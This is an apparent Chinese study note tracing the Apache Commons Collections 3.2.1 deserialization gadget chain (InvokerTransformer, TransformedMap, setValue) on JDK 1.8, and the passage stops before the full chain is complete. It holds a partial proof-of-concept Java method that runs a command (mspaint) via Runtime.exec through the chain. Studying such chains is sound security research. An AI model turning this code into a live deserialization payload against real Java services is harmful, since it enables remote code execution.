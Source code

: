 # 参考链接：
https://xz.aliyun.com/t/12715
# 一、环境
common-collection 3.2.1版本 jdk1.8版本下的POC复现 =============>  ：[maven仓库地址](https://mvnrepository.com/artifact/commons-collections/commons-collections/3.1)
在Java 8u71以后的版本中，由于 sun.reflect.annotation.AnnotationInvocationHandler 发生了变化导致不再可用

InvokerTransformer类中
	属性：调用的方法名，参数列表
	transform方法，参数为对象。效果是调用此对象的方法，方法名为属性中的方法名，参数列表也是
以下找哪里调用了transform
在TransformedMap的保护方法checkSetValue方法中，调用了transform
这里调用的对象是valueTransformer对象
此对象可以通过
```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {  
    return new TransformedMap(map, keyTransformer, valueTransformer);  
}
```
以上静态公开方法进行赋值，checkSetValue方法，有参数是对象，并赋值给transfer方法。
**到目前**我们可以确定，我们可以创建invokerTransfomer对象，通过decorate函数将这个对象赋值到checkSetValue函数中调用transform函数的对象，实现invokerTransfomer.transform方法的调用（这里实际上就是能够控制最后代码执行时的方法名和参数列表）

下面要找哪里调用了checkSetValue，以争取对value参数（最终代码执行的那个对象）的控制。

在 TransformedMap类的父抽象类AbstractInputCheckedMapDecorator中的setvalue方法中调用了checkSetValue方法
![[Pasted image 20231116202850.png]]
仔细观察，entry.setvalue(value)，点进去看看
![[Pasted image 20231116203000.png]]
这里的SetValue方法实际就是Map接口的内部接口Entry接口的一个抽象方法。那么在哪里会调用这个setValue方法呢；我们可以想到就是在给map对象的一个二元组（entry）赋值的时候会调用。
**到这里为止，我们可以对前面的利用链进行验证了**
```java
public static void test02(){  
    //创建对象，执行这个对象的transfor方法就是我们的目标  
    InvokerTransformer transformer = new InvokerTransformer("exec", new Class[]{String.class},  
            new Object[]{"mspaint"});  
    Map<String,Object>map = new HashedMap();  
    //注意这里的map一定要赋值，具体原因在AbstractMapDecorator抽象类的构造方法中，可以进入下面的decorate方法，一直进入super，会发现如果为空抛出异常  
    map.put("hh","jj");  
    //将创建的对象复制给他  
    Map <Object,Object>decorate = TransformedMap.decorate(map, null, transformer);  
    //上面实际已经把函数名和参数准备好了  
    //这里为撒不是随便一个map就行，而是非要使用decorate这个map，  
    // 因为不同的map会分别调用他们重写的setvalue方法，而我们需要调用的是TransformedMap的setvalue方法  
    for(Map.Entry entry : decorate.entrySet()){  
        entry.setValue(Runtime.getRuntime());  
    }  
}
```

接下来，我们要看的就是哪里的对象调用了setValue方法。